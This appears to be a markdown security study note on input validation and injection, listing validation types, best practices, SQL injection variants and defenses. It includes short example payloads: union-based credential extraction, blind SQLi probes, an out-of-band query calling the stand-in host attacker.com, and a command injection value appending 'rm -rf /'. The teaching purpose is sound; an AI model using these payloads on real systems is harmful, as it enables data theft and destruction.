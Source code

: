 


# 📌 1.1 Input Validation & Injection

## 🔍 What is Input Validation?
Input validation is the process of ensuring user-provided input is clean, correct, and safe before it's processed by the application. Proper validation prevents malicious data from entering the system and triggering unintended behaviors.

---

## 🚨 Why It Matters
Failing to validate input properly can lead to:
- SQL Injection
- Command Injection
- Cross-Site Scripting (XSS)
- Path Traversal
- Local/Remote File Inclusion
- Buffer Overflow

---

## 🧪 Types of Validation

| Type | Description |
|------|-------------|
| **Whitelist** | Only allow defined, expected values (most secure) |
| **Blacklist** | Disallow known bad values (bypassable) |
| **Length checks** | Enforce size constraints |
| **Format checks** | Validate pattern using regex (e.g., email, phone) |
| **Type checks** | Enforce input types (e.g., number, string, boolean) |
| **Encoding checks** | Ensure no untrusted control characters are accepted |

---

## 🔐 Security Best Practices

- Always validate on the **server side**
- Use built-in validation libraries
- Normalize input before validation (trim, decode)
- Don’t rely on client-side validation for security
- Apply contextual output encoding (e.g., HTML, JS, SQL)

---

## ⚔️ Types of SQL Injection (with Definitions & Examples)

### 1. In-Band SQLi
The attacker uses the **same communication channel** to both launch the attack and gather the results.

- **a. Error-Based SQLi**: Relies on database error messages to extract data  
  _Example_: `' OR 1=1 ORDER BY 100--` (triggers error if column doesn't exist)

- **b. Union-Based SQLi**: Uses the `UNION` keyword to combine results of two queries  
  _Example_: `' UNION SELECT username, password FROM users--`

### 2. Inferential SQLi (Blind SQLi)
The attacker **doesn't get direct output** but observes app behavior (true/false, time delay) to infer data.

- **a. Boolean-Based**: Alters logic to get different responses  
  _Example_: `' AND 1=1 --` (valid), `' AND 1=2 --` (invalid)

- **b. Time-Based**: Uses delay functions to confirm conditions  
  _Example_: `' OR IF(1=1, SLEEP(5), 0) --`

### 3. Out-of-Band SQLi
Leverages external services (like DNS or HTTP) to exfiltrate data from the database when no direct or timing-based feedback is possible.  
_Example_: `'; SELECT load_file('\\\\attacker.com\\share') --`

## 📉 Injection Attacks Overview

Injection occurs when untrusted input is interpreted as code or commands by the application. Examples:

### 🛠 SQL Injection
```sql
SELECT * FROM users WHERE username = '$user_input'
```
If `$user_input = ' OR 1=1 --`, the query becomes:
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --'
```

### 🛠 Command Injection
```bash
ping $host
```
If `$host = 8.8.8.8; rm -rf /`, it triggers a shell injection.

---

## 🧰 Recommended Defenses

- Use parameterized queries (prepared statements)
- Avoid shell command concatenation with user input
- Validate input strictly against expected values
- Employ Web Application Firewalls (WAFs) as a defense-in-depth

---

## 🧠 Key Takeaways

- Treat all user input as untrusted
- Validate early, encode later
- Combine validation + context-aware encoding
- Prevent injection by avoiding unsafe interpreters
